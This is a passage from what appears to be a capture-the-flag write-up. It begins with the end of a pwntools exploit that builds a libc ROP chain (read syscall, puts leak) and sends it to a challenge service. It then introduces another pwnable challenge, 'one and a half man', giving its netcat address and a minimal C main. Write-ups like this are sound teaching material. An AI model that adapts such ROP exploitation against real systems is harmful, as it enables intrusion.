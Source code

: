 ```python
	libc.address+pop_rdx_rsi,
	0x100,
	0x602108,
	libc.address+pop_rax,
	0x0,
	libc.address+sys_ret,
	libc.address+pop_rdi,
	0x602108,
	libc.sym.puts

])
test = flat([
	libc.address+pop_rdi,
	0x602108,
	libc.sym.puts,
	0x400EE8
])
edit(0, rop)
io.recvuntil('> ')
pause()
io.sendline('5')
io.interactive()

```


### one and a half man - 493pts

Challenge description.
```
## one and a half man - 493pts

15 solves

nc one-and-a-half-man.3k.ctf.to 8521

link

Note: Ubuntu GLIBC 2.27-3ubuntu1.2

Author: KERRO, Aracna
```
This was a fairly another simple pwnable challenge.

The code is so small.
```cpp=
int main(){

    setvbuf(stderr, 0,2,0);
    setvbuf(stdout, 0,2,0);
    vuln();
    return 0;
}
```
